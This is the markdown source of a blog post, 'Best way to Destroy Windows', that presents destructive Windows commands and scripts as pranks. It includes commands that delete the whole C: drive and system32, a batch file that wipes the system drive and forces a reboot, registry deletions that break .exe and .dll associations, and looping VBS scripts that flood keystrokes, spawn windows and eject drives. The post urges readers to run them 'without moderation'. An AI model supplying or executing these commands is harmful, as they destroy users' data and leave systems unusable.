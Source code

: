 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death

Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```


##### 2.2 Stupidity Shutdown

code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```


##### 2.3 Delete Key Registry Files

code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```


##### 2.4 Endless Notepads

code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```


##### 2.5 Crazy caps lock

code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```


##### 2.6 Endless Enter

code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```


##### 2.7 Endless Backspace

code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```


##### 2.8 Popping CD Drives

code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)
